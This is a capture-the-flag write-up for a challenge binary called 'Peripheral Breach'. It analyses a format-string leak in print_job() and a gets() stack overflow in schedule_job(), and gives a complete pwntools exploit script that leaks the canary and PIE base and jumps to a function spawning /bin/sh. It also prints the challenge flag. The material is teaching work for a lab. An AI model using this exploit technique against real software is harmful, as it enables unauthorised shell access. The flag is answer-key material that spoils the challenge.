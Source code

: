 # Peripheral Breach - Writeup

---

## Exploit Demo

This demo illustrates the exploit process:

![Alt text](gif/PeripheralBreach.gif)

---

## Binary Inspection

We begin by analyzing the binary for reverse engineering and exploitation.

### Step 1: Checking binary format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable, not stripped.

![Alt text](img/1.png)

---

### Step 2: Checking binary security

```bash
$ pwn checksec main
```

The binary is protected with:

- Full RELRO
- NX enabled
- PIE enabled
- Stack canary

![Alt text](img/2.png)

---

## Static Analysis (IDA Pro)

Reversing the binary with IDA Pro reveals two key vulnerabilities in the functions `print_job()` and `schedule_job()` that can be chained for a successful exploit.

### 1. `print_job()` – Format String Vulnerability

```c
snprintf(s, 0x200uLL, "Confirm printing: %s from %s", a1, a2);
printf(s);
```

- User-controlled input is passed directly into `printf()` without a format string.
- This introduces a **format string vulnerability** that can leak:

  - The **stack canary**, required to bypass stack protection.
  - The **PIE base address**, necessary to defeat ASLR and locate internal functions or gadgets.

### 2. `schedule_job()` – Buffer Overflow via `gets()`

```c
gets(v3);
```

- The buffer `v3` is 264 bytes on the stack.
- Since `gets()` does **not perform bounds checking**, this results in a **classic stack-based buffer overflow**.
- However, since the binary uses a **stack canary**, the canary must first be leaked (via `print_job()`) to exploit this safely.
- After bypassing the canary, the return address can be overwritten to hijack control flow.

---

## How to Solve

1. Trigger the format string vulnerability in `print_job()` to **leak the stack canary and PIE base** using format specifiers (e.g. `%p`).
2. Compute the correct **base address of the binary** and locate useful functions like `maintain()`.
3. Craft a payload that **overflows the buffer** in `schedule_job()` while preserving the leaked canary.
4. Overwrite the return address to jump to the `maintain()` function, which calls `system("/bin/sh")`.

---

## Vulnerability Summary

- **Format String** in `print_job()` → Leak **stack canary** and **PIE base**.
- **Buffer Overflow** in `schedule_job()` → Overwrite return address after bypassing canary.
- **Canary + PIE + NX + Full RELRO** → Strong protections, but all bypassable due to format string leak.
- **Goal**: Redirect execution to `maintain()` → `system("/bin/sh")`.

---

## Exploit Strategy

1. Input a **format string** (e.g., `%39$p %107$p`) into the filename and URL prompts to leak both:

   - Stack canary
   - PIE address of `main()`

2. Compute the PIE base and calculate the absolute address of the `maintain()` function.
3. Prepare a payload for the `gets()`-based overflow:

   - Padding up to the canary (264 bytes)
   - The **correct leaked canary**
   - Return address pointing to `maintain()`

4. Gain a shell via `system("/bin/sh")`.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()


io.sendlineafter(b'? ', b's')
io.sendlineafter(b'filename to print: ', b'%39$p %107$p')
io.sendlineafter(b'Enter URL: ', b'URL')

data = io.recvline_contains(b'Confirm printing:').strip()
leak_vals = data.split(b' from ')[0].split()
log.info(f"raw leaks: {leak_vals}")

canary = int(leak_vals[2], 16)
main = int(leak_vals[3], 16)
log.success(f"canary = {hex(canary)}")
log.success(f"main = {hex(main)}")

exe.address = main - exe.sym['main']
log.success(f"PIE base = {hex(exe.address)}")

maintain = exe.symbols['maintain']
log.success(f"maintain() = {hex(maintain)}")

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]


io.sendlineafter(b'Enter credentials: ', flat(
    b'A'*264,
    p64(canary),
    p64(ret),
    p64(ret),
    p64(maintain)
))


io.interactive()


```

---

## Result

After successful exploitation, the program executes:

```c
system("/bin/sh");
```

This gives us a shell to reveal the flag.

---

## FLAG

The flag will be displayed in the output after successful execution.

```
RedPointer{PhantomNetRelay0x10!}
```
